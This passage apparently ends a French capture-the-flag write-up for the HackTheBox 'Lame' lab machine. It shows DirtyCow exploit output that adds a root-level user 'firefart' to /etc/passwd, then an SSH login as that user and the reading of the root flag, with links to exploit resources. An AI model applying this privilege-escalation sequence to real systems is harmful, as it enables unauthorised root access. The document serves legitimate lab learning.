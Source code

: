 ```sh
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'root'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd

```

L'exploit a bien fonctioner et elle a creer un utilisateur `firefart` avec toutes les privileges `root` et aussi avec mon mot de passe `root`. Donc je n'ai jusqu'a me connecter en `ssh` avec cet utilisateur et le mot de passe

```sh
└─# ssh firefart@10.10.10.3
The authenticity of host '10.10.10.3 (10.10.10.3)' can't be established.
RSA key fingerprint is SHA256:BQHm5EoHX9GCiOLuVscegPXLQOsuPs+E9d/rrJB84rk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.3' (RSA) to the list of known hosts.
firefart@10.10.10.3's password: 
Last login: Thu Mar  7 22:23:04 2024 from :0.0
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
firefart@lame:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@lame:~# cat /root/root.txt
92caac3be140ef409e45721348a4e9df
firefart@lame:~# 
```

## Ressources supplementaires
Voici quelques ressources supplémentaires qui pourraient vous être utiles :
[DistCC Pentesting](https://book.hacktricks.xyz/network-services-pentesting/3632-pentesting-distcc)
[DirtyCow Hacking](https://www.hackingarticles.in/hack-linux-kernel-using-dirtycow-exploit-privilege-escalation/)
[DirtyCow ExploitDB](https://www.exploit-db.com/exploits/40616)
- [Join Us on Discord](https://discord.gg/wBT9wr9ruG).
